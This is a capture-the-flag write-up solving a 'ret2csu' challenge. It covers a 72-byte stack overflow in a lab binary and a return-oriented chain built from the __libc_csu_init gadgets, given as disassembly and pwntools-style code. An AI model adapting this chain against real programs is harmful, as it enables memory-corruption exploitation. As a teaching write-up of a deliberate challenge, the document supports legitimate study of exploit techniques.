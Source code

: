 # RET2CSU

## Solution


Initially from the binary I can see that there is No PIE
```
/root/workspace/ret2csu/chal.bin
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

I also know that the binary has libc_csu_init from the disassembly. My main focus will be on these two sections as they house the two main gadgets I will be using.

```
00400940  4c89fa             mov     rdx, r15
00400943  4c89f6             mov     rsi, r14
00400946  4489ef             mov     edi, r13d
00400949  41ff14dc           call    qword [r12+rbx*8]
0040094d  4883c301           add     rbx, 0x1
00400951  4839dd             cmp     rbp, rbx
00400954  75ea               jne     0x400940

00400956  4883c408           add     rsp, 0x8
0040095a  5b                 pop     rbx {__saved_rbx}
0040095b  5d                 pop     rbp {__saved_rbp}
0040095c  415c               pop     r12 {__saved_r12}
0040095e  415d               pop     r13 {__saved_r13}
00400960  415e               pop     r14 {__saved_r14}
00400962  415f               pop     r15 {__saved_r15}
00400964  c3                 retn     {__return_addr}
```
For the overflow, I used cyclic to calculate the size in GDB. This necessary overflow size was 72. 

The second part that I looked at was the win and lose functions. The win function was called inside the lose function and displayed multiple arguments.

```
return win(1, 2, 3, 4, 5, 6);
```

However, setting these registers is different as there is an hidden calling convention. To set the last three registers. I will have to use r12, r13, and r14. This is not that much of a problem because of the order of the chain that I will use. 

For the chain, I'll use the r13-15 registers to set rdi, rsi, and rdx respectively. I'll call the second gadget first to pop the values I want and then call the first gadget. For rbx and r12, I will set r12 to a fini pointer and rbx to 0 to bypass the call in the first gadget. Then, I'll add more values to the stack so that I can reuse the second gadget once the first gadget continues execution. This allows me to set all the registers. The chain is listed below:

```
chain += p64(e.sym['__libc_csu_init'] + 90)          # first gadget
chain += p64(0)
chain += p64(0x1)
chain += p64(fini_ptr)                               # r12 = ptr to _fini
chain += p64(0xbe)                                   # rdi = 0xbe
chain += p64(0xb01d)                                 # rsi = 0xb01d
chain += p64(0xface)                                 # rdx = 0xface

chain += p64(e.sym['__libc_csu_init'] + 64)          # second gadget
chain += p64(0)                                      # padding
chain += p64(0x1)       
chain += p64(0x1)
chain += p64(0xbad)                                   # r12 = 0xbad                                     
chain += p64(0xd0)                                    # r13 = 0xd0
chain += p64(0xc4a53)                                 # r14 = 0xc4a53
```

I then call the win function when the final return in the second gadget is hit to display the flag.